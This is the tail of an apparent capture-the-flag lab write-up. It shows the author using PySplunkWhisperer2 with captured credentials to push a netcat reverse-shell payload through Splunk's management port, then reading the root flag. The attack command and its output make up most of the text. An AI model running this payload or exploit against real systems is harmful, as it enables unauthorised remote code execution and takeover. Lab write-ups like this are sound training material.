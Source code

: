 ```bash
$ python3 ./PySplunkWhisperer2_remote.py --host 10.10.10.209 --port 8089 --username shaun --password Guitar123 --payload "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f" --lhost 10.10.10.10
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmpcae79s9x.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.10.10:8181/
10.10.10.209 - - [04/Feb/2021 19:46:38] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup

[.] Removing app...
[+] App removed
[+] Stopped HTTP server
Bye!
```

From the reverse shell obtained, was able to get the content from `/root/root.txt` without problems

```bash
# cat /root/root.txt
<redacted>
```

I hope it was somehow useful!

See you in the next post! :smile:
